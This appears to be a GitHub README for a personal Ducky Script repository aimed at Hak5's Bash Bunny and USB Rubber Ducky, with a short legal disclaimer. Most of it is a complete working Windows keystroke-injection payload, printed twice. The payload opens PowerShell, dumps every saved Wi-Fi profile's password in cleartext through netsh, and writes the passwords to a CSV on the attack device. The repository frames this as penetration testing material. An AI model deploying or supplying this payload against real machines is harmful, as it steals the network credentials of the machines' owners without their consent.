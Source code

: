 # Steven's Custom Ducky Script Repository

This repository contains **custom Ducky Scripts** designed for use with **Hak5's Bash Bunny** and **USB Rubber Ducky**. These scripts are intended for **educational purposes, ethical hacking, penetration testing, and cybersecurity research**.



## ⚠ Disclaimer

**Legal & Ethical Use Notice**  
These scripts are provided **strictly for educational and research purposes only**. Unauthorized use of these scripts to access systems without permission is **illegal and punishable by law**. By using this repository, you **agree** to only use these scripts in **controlled environments** (e.g., on your own devices or with explicit permission). I, the author, **do not take responsibility** for any misuse of these scripts. Thank you!

## Bash Bunny Network Key Dumper (Windows) 
**Payload.txt handles overall attack logic, device modes, and script execution.**
```ducky
# set up payload
LED SETUP
GET SWITCH_POSITION
ATTACKMODE HID STORAGE

# run duckyscript file 'ducky-script.txt'
LED STAGE1
QUACK ${SWITCH_POSITION}/ducky-script.txt

# end payload
LED FINISH
```

**Ducky-script.txt contains keystroke injection commands (Ducky Script syntax).**
```ducky
GUI r
DELAY 500
STRING powershell -NoProfile 
ENTER
DELAY 500

STRING $u=gwmi Win32_Volume|?{$_.Label -eq'BashBunny'}|select name;cd $u.name
ENTER
DELAY 500
STRING cd loot
ENTER
DELAY 500

STRING (netsh wlan show profiles) | Select-String ":(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name="$name" key=clear)}  | Select-String "Key Content\W+\:(.+)$" | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }} | Export-Csv -NoTypeInformation -Path ".\$env:UserName`_WiFiPasswords.csv"; exit
ENTER

```

## Bash Bunny Network Key Dumper (Windows) 
Payload.txt handles overall attack logic, device modes, and script execution.
```ducky
# set up payload
LED SETUP
GET SWITCH_POSITION
ATTACKMODE HID STORAGE

# run duckyscript file 'ducky-script.txt'
LED STAGE1
QUACK ${SWITCH_POSITION}/ducky-script.txt

# end payload
LED FINISH
```

Ducky-script.txt contains keystroke injection commands (Ducky Script syntax).
```ducky
GUI r
DELAY 500
STRING powershell -NoProfile 
ENTER
DELAY 500

STRING $u=gwmi Win32_Volume|?{$_.Label -eq'BashBunny'}|select name;cd $u.name
ENTER
DELAY 500
STRING cd loot
ENTER
DELAY 500

STRING (netsh wlan show profiles) | Select-String ":(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name="$name" key=clear)}  | Select-String "Key Content\W+\:(.+)$" | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }} | Export-Csv -NoTypeInformation -Path ".\$env:UserName`_WiFiPasswords.csv"; exit
ENTER
```




## 🔗 References

- [Hak5 Official Website](https://hak5.org/)
- [USB Rubber Ducky Documentation](https://docs.hak5.org/)
- [Bash Bunny Documentation](https://docs.hak5.org/bash-bunny/)

